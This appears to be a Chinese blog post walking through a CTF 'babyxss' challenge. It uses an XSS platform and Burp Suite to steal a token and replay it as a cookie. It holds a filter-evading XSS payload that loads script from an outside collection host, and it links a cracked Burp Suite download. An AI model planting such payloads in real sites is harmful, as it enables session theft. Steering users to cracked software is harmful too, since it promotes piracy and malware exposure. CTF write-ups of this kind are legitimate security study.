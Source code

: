 ```yaml
---
layout:     post
title:      2019-05-01 收获 总结
subtitle:  ctf babyxss解题
date:       2019-05-01
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```

##  0x1 题目描述
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g2m7mwj9eaj30ga0bva9z.jpg)

## 0x2 使用工具
burpsuite、xss平台

## 0x3 解题步骤
### 1. xss平台的使用
注册xss平台的账号,新建一个名为dayou的项目，根据提示如下图：
![](https://wx2.sinaimg.cn/mw1024/0079f8Holy1g2m7mww0zmj30n70c7t8v.jpg)
将
```
</tExtArEa>'"><sCRiPt sRC=http://xss.fbisb.com/TEvn></sCrIpT>
```
输入在message的位置
![](https://wx2.sinaimg.cn/mw1024/0079f8Holy1g2m7mweydoj30lv06j3yc.jpg)
md5的解码的结果用4月15号博客里的python脚本得到，提交答案，再去xss平台中查看，已经获得到了token。
![](https://wx2.sinaimg.cn/mw1024/0079f8Holy1g2m7mwlip9j30n50cqmxc.jpg)

### 2. burpsuite的安装及其配置
1. 下载。解题需要用到burpsuite,burpsuite的安装很让人头疼，最终找的一个比较好用的破解版，只有八兆多大
-[百度云下载链接](https://pan.baidu.com/s/1c2wFgGS?errno=0&errmsg=Auth%20Login%20Sucess&&bduss=&ssnerror=0&traceid=)
密码：h1k9。
2. 配置。详细配置参考链接：-(配置步骤)[https://www.cnblogs.com/slpawn/p/7235105.html]

### 3. burpsuite截获数据包
配置完成后，在火狐浏览器中打开题目链接，在burpsui中设置“intercept is on”的状态
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g2m7mwefv7j30cv02i743.jpg)
之后将获得数据包：
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g2m7mwfsutj30lo04mq2u.jpg)
点击params->add,选择cookie,添加token,将xss平台中获得token添加进去
![](https://wx3.sinaimg.cn/mw1024/0079f8Holy1g2m7mwjoncj30r605ht8l.jpg)
然后点击forward，打开浏览器即可获得flag。
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g2m7mwmyy3j30li0c8jre.jpg)
